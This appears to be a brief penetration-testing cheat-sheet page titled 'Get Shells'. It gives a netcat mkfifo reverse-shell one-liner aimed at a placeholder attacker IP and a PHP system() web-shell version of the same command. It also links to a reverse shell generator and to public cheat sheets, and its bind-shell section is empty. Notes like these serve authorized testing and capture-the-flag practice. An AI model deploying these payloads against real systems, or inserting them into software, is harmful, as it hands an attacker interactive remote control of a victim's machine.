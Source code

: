# Get Shells

### Reverse Shells

<pre class="language-bash"><code class="lang-bash"><strong>#Get a /bin/sh, remember to nc -lnvp &#x3C;listeningPort>
</strong>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc attackIP ListeningPort) >/tmp/f
##Adapted for PHP
&#x3C;?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc attackerIP listeningPort >/tmp/f"); ?>

#
</code></pre>

***

### Bind Shells

```bash
#
```

***

### Online resources

#### Reverse Shell generator

{% embed url="https://www.revshells.com/" %}

#### Reverse Shell cheat sheet

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" fullWidth="false" %}

#### Bind Shell cheat sheet

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md" %}
